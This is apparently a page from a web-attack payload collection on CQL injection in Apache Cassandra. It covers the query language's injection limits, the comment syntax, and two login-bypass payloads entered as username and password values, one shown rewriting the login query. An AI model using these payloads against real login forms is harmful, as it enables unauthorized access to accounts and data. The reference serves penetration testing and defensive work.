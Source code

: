 # Cassandra Injection

> Apache Cassandra is a free and open-source distributed wide column store NoSQL database management system.


## Summary

* [CQL Injection Limitations](#cql-injection-limitations)
* [Cassandra comment](#cassandra-comment)
* [Cassandra - Login Bypass](#cassandra---login-bypass)
    * [Example #1](#example-1)
    * [Example #2](#example-2)
* [References](#references) 


## CQL Injection Limitations

* Cassandra is a non-relational database, so CQL doesn't support `JOIN` or `UNION` statements, which makes cross-table queries more challenging. 

* Additionally, Cassandra lacks convenient built-in functions like `DATABASE()` or `USER()` for retrieving database metadata. 

* Another limitation is the absence of the `OR` operator in CQL, which prevents creating always-true conditions; for instance, a query like `SELECT * FROM table WHERE col1='a' OR col2='b';` will be rejected. 

* Time-based SQL injections, which typically rely on functions like `SLEEP()` to introduce a delay, are also difficult to execute in CQL since it doesn’t include a `SLEEP()` function.

* CQL does not allow subqueries or other nested statements, so a query like `SELECT * FROM table WHERE column=(SELECT column FROM table LIMIT 1);` would be rejected. 


## Cassandra comment

```sql
/* Cassandra Comment */
```


## Cassandra - Login Bypass

### Example #1

```sql
username: admin' ALLOW FILTERING; %00
password: ANY
```

### Example #2

```sql
username: admin'/*
password: */and pass>'
```

The injection would look like the following SQL query

```sql
SELECT * FROM users WHERE user = 'admin'/*' AND pass = '*/and pass>'' ALLOW FILTERING;
```


## References

- [Cassandra injection vulnerability triggered - DATADOG - January 30, 2023](https://docs.datadoghq.com/fr/security/default_rules/appsec-cass-injection-vulnerability-trigger/)
- [Investigating CQL injection in Apache Cassandra - Mehmet Leblebici - December 2, 2022](https://www.invicti.com/blog/web-security/investigating-cql-injection-apache-cassandra/)